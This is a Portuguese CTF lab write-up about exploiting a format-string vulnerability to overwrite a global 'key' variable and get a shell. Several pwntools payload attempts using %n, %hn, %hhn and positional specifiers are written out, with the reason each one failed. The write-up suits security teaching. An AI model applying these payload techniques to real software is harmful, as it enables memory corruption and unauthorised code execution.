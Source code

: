 # CTF7 Desafio extra

## Recolha de informação e Reconhecimento da vulnerabilidade

Acaba por ser bastante semelhante ao segundo desafio desta semana 7, apenas o endereço da variável `key` passa a ser `0x804b320`.

<img src="../screenshots/ctf7/d3_key.PNG" alt="key">

## Exploração da vulnerabilidade

### Tentativa 1

Começamos por tentar modificar o valor da variável global `key` usando o `%n`, tal como feito antes no desafio 2:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x20\xB3\x04\x08%.48871x%n")
p.interactive()
```

Mas correu mal, devido a `\x20` corresponder a um espaço em código ASCII, o que acaba por não permitir a leitura total da string injetada.

### Tentativa 2

Para tentar corrigir isso, fomos tentar escrever no endereço `0x804b31F` (1 byte anterior ao endereço da `key`) o valor de `0xBEEF00`:

<img src="../screenshots/ctf7/try2_1.PNG" alt="try">


```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x1F\xB3\x04\x08%.12513024x%n")
p.interactive()
```

Agora a shell já era lançada só que vinha logo com um timeout, por causa do elevado número de caracteres (mais de 12 milhões) escritos:

<img src="../screenshots/ctf7/try2.png" alt="try">

### Tentativa 3

Para corrigir tinhamos de baixar o número de caracteres escritos e para isso usamos os format specifiers `%hn` e `%hhn`, que nos permitem dividir o valor `0xBEEF00` em: **(1)** `0xBE` (1 byte, `%hhn`) e **(2)** `0xEF00` (2 bytes, `%hn`):

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x21\xB3\x04\x08BBBB\x1F\xB3\x04\x08%.%172x%hhn%60994x%hn")
p.interactive()
```

No entanto ao executar voltamos a não conseguir lançar o terminar agora porque a string injetada ultrapassa os 32 bytes, o espaço alocado ao `buffer`...

### Tentativa 4

Então usamos os format specifiers `%1$hhn` e `%2$hn` para podermos poupar 8 bytes no nosso input - `%m$` permite-nos referenciar o m-ésimo argumento. 

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%.182x%1$hhn%.60994x%2$hn")
p.interactive()
```

Só que como a string continua a ter mais de 32 bytes, passamos `%.182x` e `%.60994x` para `%182x` e `%60994x`, respetivamente:

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%182x%1$hhn%60994x%2$hn")
p.interactive()
```

E assim já conseguimos obter a flag esperada:

<img src="../screenshots/ctf7/flag3.PNG" alt="flag3">
